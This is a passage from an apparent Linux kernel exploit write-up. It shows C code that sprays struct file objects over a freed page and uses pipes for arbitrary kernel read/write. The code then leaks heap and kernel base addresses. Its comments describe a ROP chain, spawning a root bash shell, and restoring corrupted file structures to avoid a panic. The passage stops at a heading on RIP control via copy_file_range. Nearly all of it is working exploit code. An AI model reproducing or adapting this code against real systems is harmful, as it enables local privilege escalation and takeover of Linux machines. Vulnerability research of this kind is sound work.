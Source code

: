After freeing the page again, we spray struct file objects to overwrite it. This results in arbitrary read/write via the pipe, allowing us to tamper with file structures directly:

```c
SYSCHK(write(pipes[1], "A", 1)); // release socket
usleep(50);
int spray_fds[0x80];
char buff[1024] = {};
for (int i = 0; i < sizeof(spray_fds)/4; i++) {
    spray_fds[i] = SYSCHK(open("/tmp/tmp_file", O_RDWR | O_CREAT, 0666));
    // Write i bytes so that the file sets f_pos = i.
    // This makes f_pos act as an index identifying the sprayed file object.
    SYSCHK(write(spray_fds[i], buff, i));
}
```

Leak:

```c
u64 buf[0x1000/8];
for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
    SYSCHK(read(pipe_fd[i][0], buf, sizeof(buf)));
    for (int j = 0; j < sizeof(buf)/8; j++)
        // f_mode (0x4f801f when open (O_RDWR | O_CREAT)) | f_iocb_flags (default = 0)
        if (buf[j] == (F_MODE << 32 | 0)) {
            goto buildrop;
        }
}
for (int i = 0; i < sizeof(spray_fds)/4; i++) {
    SYSCHK(close(spray_fds[i]));
}
puts("retry");
usleep(5000);
system(argv[0]);
exit(0);
buildrop:
// I preserved the page containing the filp objects so I could restore them later.
// During the exploit I overwrote some of the filp structures with my ROP chain once I had arbitrary read/write access.
// After spawning /bin/bash (in getroot), some of those corrupted file structures could be released, which might otherwise trigger a kernel panic.
// To ensure the release process completes cleanly, I restore the page(filp obj) before letting the system free those objects.
memcpy(save_page, buf, sizeof(buf));
close(sock);
// file->f_pos_lock->wait_list->next, default is &wait_list = file + OFFSET_FILE_POS_LOCK_WAITLIST
heap_base = (buf[OFFSET_FILE_POS_LOCK_WAITLIST/sizeof(uint64_t)]-OFFSET_FILE_POS_LOCK_WAITLIST) >> 12 << 12;
info("heap_base", heap_base);
kbase = buf[OFFSET_FILE_FOP/sizeof(uint64_t)] - SHMEM_FILE_OPERATIONS;
// [...]
```

RIP control via `copy_file_range`:
